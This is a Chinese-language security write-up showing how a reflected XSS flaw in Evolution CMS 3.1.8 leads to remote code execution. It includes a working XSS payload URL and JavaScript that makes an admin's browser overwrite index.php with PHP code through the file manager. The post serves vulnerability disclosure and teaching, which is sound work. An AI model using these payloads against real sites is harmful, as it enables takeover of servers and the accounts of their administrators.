 #  开源应用程序导致 XSS 到 RCE 漏洞缺陷   
 Ots安全   2024-02-25 17:09  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
跨站脚本 (XSS) 是 Web 应用程序中最常见的攻击之一。如果攻击者可以将 JavaScript 代码注入应用程序输出中，这不仅会导致 cookie 盗窃、重定向或网络钓鱼，而且在某些情况下还会导致系统完全受损。  
  
  
在本文中，我将展示如何在 Evolution CMS、FUDForum 和 GitBucket 的示例上通过 XSS 实现远程代码执行。  
  
  
**Evolution CMS v3.1.8**  
  
链接：https: //github.com/evolution-cms/evolution  
  
CVE：待定  
  
  
Evolution CMS 是世界上最快且可定制性最强的开源 PHP CMS。  
在 Evolution CMS 中，我发现用户控制数据的未转义显示，这导致了反射型 XSS 攻击的可  
能性：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadPsVWgiaucDh2zg6oyiaVSpjx2eH2cenMtZeGmhlnWM15tqn8JnzTzGWqN8ActQR0z80cuCNrtmUcQ/640?wx_fmt=png&from=appmsg "")  
  
manager/views/page/user_roles/permission.blade.php  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadPsVWgiaucDh2zg6oyiaVSpjN1gJkCoI6rAqXnKY0167N3MPPTF3WuNCicicicWh1GQ7OO7ibibpsJh6Afg/640?wx_fmt=png&from=appmsg "")  
  
manager/views/page/user_roles/user_role.blade.php  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadPsVWgiaucDh2zg6oyiaVSpjZM0hjtwYicZGHpw2Gy17bC6hZqade36yib5U35I3zmmxicJCv2qo3hKIg/640?wx_fmt=png&from=appmsg "")  
  
manager/views/page/user_roles/permissions_groups.blade.php  
  
我将给出一个带有有效负载的链接的示例。  
```
https://192.168.1.76/manager/?a=35&id=1%22%3E%3Cimg%20src=1%20onerror=alert(document.domain)%3E
```  
  
如果系统中授权的管理员点击该链接或点击该链接，则 javascript 代码将在管理员的浏览器中执行：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadPsVWgiaucDh2zg6oyiaVSpjJkkiaSm2JZluGRWvJuN6R7VTmPNOUpb29ttAVMRRibwFhvayeKib6MHaA/640?wx_fmt=png&from=appmsg "")  
  
EEvolution CMS中反射型XSS攻击的利用  
  
  
在 Evolution CMS 管理面板的文件管理器部分中，管理员可以上传文件。问题是它无法上传 php 文件，但是它可以编辑现有的文件。  
  
  
我们将给出一个示例 javascript 代码，它将使用 phpinfo() 函数覆盖 ndex.php 文件：  
```
$.get('/manager/?a=31',function(d) {
  let p = $(d).contents().find('input[name=\"path\"]').val();
  $.ajax({
    url:'/manager/index.php',
    type:'POST',
    contentType:'application/x-www-form-urlencoded',
    data:'a=31&mode=save&path='+p+'/index.php&content=<?php phpinfo(); ?>'}
  );
});
```  
  